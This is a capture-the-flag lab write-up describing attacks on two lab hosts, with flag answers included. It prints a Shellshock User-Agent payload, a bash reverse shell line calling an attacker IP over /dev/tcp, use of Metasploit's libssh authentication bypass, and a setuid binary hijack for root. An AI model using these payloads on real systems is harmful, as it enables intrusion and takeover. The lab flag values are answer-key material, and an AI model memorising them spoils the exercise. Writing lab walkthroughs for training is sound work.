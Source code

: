 
---

# Lab Environment

In this lab environment, you will be provided with GUI access to a Kali Linux machine. Two machines are accessible at **http://target1.ine.local** and **http://target2.ine.local**.

**Objective:** Perform system/host-based attacks on the target and capture all the flags hidden within the environment.

**Flags to Capture:**

- **Flag 1**: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local.
- **Flag 2**: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.
- **Flag 3**: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.
- **Flag 4**: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

# Tools

The best tools for this lab are:

- Nmap
- Burp Suite
- Metasploit Framework


---

### First Target:

We will start with our Nmap scan: `nmap -Pn -A -p- -v target1.ine.local`

This will reveal that this target is running a website on port 80 using http.

After visiting this website, we notice that the name of the main page of it is: "browser.cgi" . That means this website might be vulnerable to Shellshock vulnerability. To make sure it is indeed vulnerable, we will use this Nmap script like so: `nmap -Pn --script=http-shellshock.nse --script-args "http-shellshock.uri=/browser.cgi" -A -p80 -v target1.ine.local`  

The website is indeed vulnerable.

Now, we will open BurpSuite to capture the main page traffic and send it to Repeater. 

In the User-Agent, we will replace the text with this:" () { : ; };  echo; echo; /bin/bash -c 'ls -la' "

This will show us a list of files in the system, further confirming that we found a Shellshock vulnerability. Now, we can get a reverse shell on the target. 

We will run Netcat to listen on port 1234 like so: `nc -nvlp 1234`

We will replace the malicious code that we have put previously to list the files with this: " bash -i >&/dev/tcp/192.46.214.2/1234 0>&1 " Putting our IP address and the port number that Netcat is currently listening to. If we sent this request and returned back to Netcat, we will find that we have a reverse shell on the target system.

The first flag will be found in "/" directory and the second flag will be in "/opt/apache/htdocs" in a file called ."flag.txt"

**First flag:** d6312240e30447b7a09809193980e653

**Second flag:** f0a9f6ced2644d7d80bcc9e233b9e58b

---

### Second target

We will start with our Nmap scan: `nmap -Pn -A -p- -v target2.ine.local

This will reveal that SSH is running on the target. Specifically, libssh 0.8.3 version 

We can search MSF for an exploit in this version of SSH: `search libssh`

We will find this module: "auxiliary/scanner/ssh/libssh_auth_bypass"

After showing its info, we get this:"This module exploits an authentication bypass in libssh server code where a USERAUTH_SUCCESS message is sent in place of the expected USERAUTH_REQUEST message. libssh versions 0.6.0 through 0.7.5 and 0.8.0 through 0.8.3 are vulnerable."

That means that the version running on the target is vulnerable.

We have two ways to get a reverse shell using this module, the first one is to set its action to Shell, this will automatically create a reverse shell session for us. The second way is to set its action to Execute, this will allow us to execute malicious commands. We can use the same bash script that we used in the first target to get a reverse shell. 

**Note: To use the Shell action, we need also to set spawn_pty to true.**

The third flag will be under "/home/user".

In "/home/user" directory, we will find two files: "greetings" and "welcome". "welcome" file is with setuid permission. That means it can be run with root privileges with any user. We will check if this file is calling upon any other files or not:`strings welcome` . We will discover that "welcome" is calling upon the file "greetings". We can delete the file greetings and replace it with /bin/bash, so when we run "welcome", we will get a shell with root privileges.

First, we delete "greetings":`rm greetings`

Second, we replace it with /bin/bash: ` cp /bin/bash > greetings`

Lastly, we will execute "welcome" :`./welcome`

Now, we are root.

The forth flag will be found in: "/root"

**Third flag:** 3706ee23ed33437eb9b808a4f2b2b7c6

**Forth flag:** 189f3075876044f68e13b11b7ed0e989

